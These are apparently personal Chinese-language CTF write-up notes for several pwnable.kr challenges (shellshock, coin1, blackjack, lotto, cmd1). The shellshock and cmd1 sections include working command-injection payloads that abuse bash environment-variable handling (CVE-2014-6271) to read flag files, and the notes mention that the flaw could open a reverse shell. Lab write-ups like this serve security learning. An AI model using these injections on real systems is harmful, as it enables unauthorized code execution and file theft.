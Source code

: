 http://ydc1992.github.io/2016/04/03/Pwnable-kr-shellshock/
http://devco.re/blog/2014/09/30/shellshock-CVE-2014-6271/
https://coolshell.cn/articles/11973.html



挖掘该漏洞的方法论： 深入了解bash源码，对bash处理env了如执掌啊

env 环境变量的处理问题，(){ 会被处理成为函数开头，虽然你输入的只是参数，导致代码注入，可以开个反向端口或者shell
一般常用的payload是：

	'(){:;};echo flag'
	':'相当于/bin/true 
    () { :;} 中的冒号就相当于/bin/true，返回true并退出。

构造payload：

    env x='() { :;}; /bin/cat flag' ./shellshock




# coin1 

二分查找，参见代码

关键点：

算法考察，在目标机器运行，否则会很慢，网络延时太大


# balckjack 

对输入参数的大小比较判断，读懂题目


# lotto 

题目考点：

/dev/urandom 产生系统噪声的随机数，通过读这个文件，可以获取随机数。

ascii中0-31（127）是控制字符，其余都是可见字符，再结合题目中说，给出6个小于46的数字，因此把范围缩小到31-46自字段。

目标机器是tmp文件下不可‘ls’命令，但是文件确实存在可以盲打。


# cmd1 

题目考点：

环境变量，通过$符号来获取

通关参数：

cmd1@ubuntu:~$ env x='/bin/cat /home/cmd1/flag' ./cmd1 "\$x"

mommy now I get what PATH environment is for :)
